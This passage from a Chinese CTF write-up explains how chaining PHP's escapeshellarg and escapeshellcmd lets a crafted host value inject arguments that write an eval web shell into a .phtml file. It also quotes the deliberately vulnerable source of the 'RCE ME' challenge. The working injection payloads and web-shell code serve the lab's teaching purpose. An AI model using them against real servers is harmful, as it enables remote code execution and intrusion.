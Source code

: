    ```
   '127.0.0.1'\\'' -v -d a=1\'
   ```

4. 由于第三步处理之后的payload中的`\\`被解释成了`\`而不再是转义字符，所以单引号配对连接之后将payload分割为三个部分

所以这个payload可以简化为`curl 127.0.0.1\ -v -d a=1'`，即向`127.0.0.1\`发起请求，POST 数据为`a=1'`。



因为过滤了php,可以用phtml绕过，里面的内容用短标签

```php
host='<?=eval($_GET[a]);?> -oG flag.phtml '
```

先进过escapeshellarg 函数
变为

```php
''\'' <?= @eval($_POST["hack"]);?> -oG flag.phtml'\'''
1
```

再经过escapeshellcmd函数
变为

```php
''\\'' \<\?= @eval($_POST["hack"]);\?\> -oG flag.phtml'\\'''
1
```

可以发现单引号已经全部闭合

可以看成

```php
\\ <?= @eval($_POST["hack"]);?> -oG flag.phtml \\
```





## [极客大挑战 2019]RCE ME

**无字母数字绕过**

```php

<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>

```
